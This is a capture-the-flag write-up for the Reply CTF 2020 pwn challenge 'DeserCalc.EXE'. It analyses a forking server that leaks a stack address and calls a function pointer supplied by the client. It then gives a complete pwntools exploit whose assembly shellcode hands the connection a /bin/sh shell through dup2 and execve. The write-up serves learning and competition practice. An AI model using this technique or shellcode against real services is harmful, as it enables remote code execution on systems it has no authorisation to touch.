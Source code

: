 ```yaml
---
ctf_name: "reply ctf 2020"
title: "DeserCalc.EXE"
date:	2020-10-10
author: "NicolaVV" 
category: "pwn"
---
```


## Program description
Two files are given, [client](https://github.com/fibonhack/fibonhack.github.io/blob/master/_posts/2020/reply2020/DeserCalc.EXE/server?raw=true) and [server](https://github.com/fibonhack/fibonhack.github.io/blob/master/_posts/2020/reply2020/DeserCalc.EXE/client?raw=true) , but only the server is worth analyzing.

It is a forking server, the function which handles the connection is located @ 0x08049882. 

It exchanges messages with the client by using a struct like that
```c
struct RPC {
    uint32 addr;
    char msg[100];
}
```

The handler function:
- check if the first msg received is `JustPwnThis!`
- reply with the string OK
- send an RPC object containing the address of do_calculation
- receive an RPC object and assert that received_RPC.addr == do_calculation
- then send another RPC object where send_RPC.addr == do_calculation - stack_buffer
    - So it is easy to calculate stack_buffer = do_calculation - send_RPC.addr
- receive 2 RPC ojects and execute the function @ RPC[1].addr

handler pseudocode:
```c
int handler(int client_fd)

{
  char buf [100];
  char *local_18;
  RPC *rpc_obj;
  
  log('I',"PID %d: %s\n",_Var1,"Incoming connection...", getpid());
  if check_password(client_fd,"JustPwnThis!") == 0) {
    send_nullterminated(client_fd,"WRONG\n");
    return -1;
  }
  else {
    send_nullterminated(client_fd,"OK\n");
    send_RPC_docalc(client_fd);
    rpc_obj = alloc_RPC_structs(2);
    
    if (check_RPC_addr_and_leak_param3(client_fd,rpc_obj + 1,buf) == 0) {
      log('W',"PID %d: %s\n",_Var1,"exiting. reason: wrong RPC address...", getpid());
      return -1;
    }
    else {
      recv_2_RPC_structs(client_fd,rpc_obj);
      local_18 = (char *)(*(code *)rpc_obj[1].RPC_addr)(buf);
      send_RPC_docalc_msg(client_fd,local_18);
      log('I',"PID %d: %s\n",_Var1,"exiting normally...", getpid());
      return 0;
    }
  }
}
```

## Exploit
checksec server output:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```
NX is disabled so it is possible to just jump at the stack buffer leaked by the server

```python
from pwn import *
from binascii import hexlify

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = ELF('./server')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote('gamebox1.reply.it', 27364)
    else:
        return remote('127.0.0.1', 8000)

def RPC(addr, msg):
    while len(msg) != 100:
        msg += b'\x41'
    return p32(addr) + msg


shellcode = '''
    mov ebx, 0x08049300 # close

# close(0)
    push 0
    call ebx

# close(1)
    push 1
    call ebx

    mov ebx, 0x08049050 # dup2

# dup2(4,0)
    push 0
    push 4 
    call ebx

# dup2(4,1)
    push 1
    push 4 
    call ebx

# execve binbash
    xor    eax, eax
    push   eax
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx, esp
    mov    ecx, eax
    mov    edx, eax
    mov    al, 0xb
    int    0x80
'''

io = start()

password = b'JustPwnThis!'
io.recvuntil(b'Password:')
io.sendline(password)
io.recvuntil(b'OK\n')

io.recv()

DO_CALCULATION = 0x0804a8c8

scode = asm(shellcode, arch = 'i386')

# this scode is gonna be stored in buf of handler function
payload = RPC(DO_CALCULATION, scode)
io.send(payload)
RPC1 = io.recv()
bufleak = (DO_CALCULATION - u32(RPC1[:4])) & 0xffffffff
print ("buf @ %08x" % (bufleak))

'''
Sending 
- garbage RPC
- RPC (function_to_execute=scode_location, garbage)
'''
io.send(RPC(0,b'')+RPC(bufleak,b''))

# get a shell
io.interactive()
```

The shellcode closes stdin,stdout, redirect stdin and stdout to the client_fd with dup2(client_fd,1) dup2(client_fd,0), then it does the classic execve(binbash)
